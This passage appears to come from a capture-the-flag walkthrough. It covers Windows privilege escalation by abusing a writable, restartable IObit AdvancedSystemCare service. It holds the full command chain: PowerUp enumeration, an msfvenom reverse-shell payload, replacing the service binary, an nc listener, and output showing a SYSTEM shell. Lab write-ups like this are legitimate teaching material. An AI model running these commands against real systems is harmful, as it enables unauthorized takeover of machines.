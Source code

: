 **4. Drop into PowerShell.**

powershell\_shell

**5. Execute script.**

. .\PowerUp.ps1

Invoke-AllChecks

* CanRestart option allows restarting of service if set to true.
  * Directory to application is also writable - weak file permissions on service files.
  * Legitimate application can be replaced with malicious one then the service restarted.
    * Infected program will then run.
* "AdvancedSystemCareService9" service has CanRestart option set to true in this example.

**6. Create reverse shell in Msfvenom.**

msfvenom -p windows/shell\_reverse\_tcp LHOST=TARGET\_IP LPORT=4443 -e x86/shikata\_ga\_nai -f exe-service -o Advanced.exe

**7. Upload payload.**

* CTRL+C to exit PowerShell shell.

upload /root/Advanced.exe

* shell to enter regular command prompt shell.

cd "c:\program files (x86)\iobit\advanced systemcare"

copy ascservice.exe ascservice.exe.bkp

**8. Stop service on target.**

sc stop advancedsystemcareservice9

**9. Overwrite service executable with reverse shell on target.**

copy advanced.exe ascservice.exe

**10. Create listener on attacking machine.**

nc -lvnp 4443

**11. Start service on target.**

sc start advancedsystemcareservice9

**12. Reverse shell caught by listener.**

Connection from TARGET\_IP 49500 received!

Microsoft Windows \[Version 6.3.9600]

(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami

nt authority\system

* Root flag is located at C:\Users\Administrator\Desktop.
